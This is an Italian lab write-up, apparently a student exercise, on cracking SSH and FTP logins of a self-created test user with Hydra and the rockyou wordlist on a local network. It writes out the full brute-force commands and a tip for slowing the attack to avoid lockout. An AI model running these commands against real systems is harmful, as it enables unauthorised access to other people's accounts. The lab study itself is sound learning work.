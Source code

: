 ho testo oggi come fare il craking dell'username e passowrd usando un attacco a dizionario sul un utente di prova che ho creato chiamato "test_user" ho iniziato scrivendo sudo adduser test_user (serve a creare un nuovo utente) poi ho fatto sudo service ssh start(per startare il protocollo ssh)
e ho fatto l'accesso al nuovo utente ssh facendo "ssh test_user@192.168.1.218" riuscendo a stabilire la connessione,dopodichè ho inziato ad eseguerei l'attacco,scrivendo 
"hydra -L /home/kali/Desktop/user.txt -P /home/kali/Desktop/rockyou.txt 192.168.1.218 -t1 ssh" (ho messo -t1 per avere un tempo più lento ed evitare che il sistema blocchi l'attacco) in questo caso nel codice -L e -P stanno per 
-L è l'opzione per specificare un file contenente un elenco di nomi utente
-P è l'opzione per specificare un file contenente un elenco di password
-t imposta il numero di task (thread) in questo caso 1
a fine del processo ho ottenuto le credenziali in chiaro
ho rifatto la stessa cosa cambiando la fine in "hydra -L /home/kali/Desktop/user.txt -P /home/kali/Desktop/rockyou.txt 192.168.1.218 -t1 ftp"(prima usavo il protocollo ssh su porta ) facendo cosi lo stesso attacco su l'utente ftp e ottenendo comunque le credenziali in chairo,prima però  ,scaricato in precedenza il servico facendo sudo apt-get install vsftpd
ho configuranto il file di configurazione ftp attivando :
local_enable=YES: Consente l'accesso tramite FTP per gli utenti locali del sistema
write_enable=YES: Permette agli utenti di caricare file sul server FTP(come in un vero scenario)
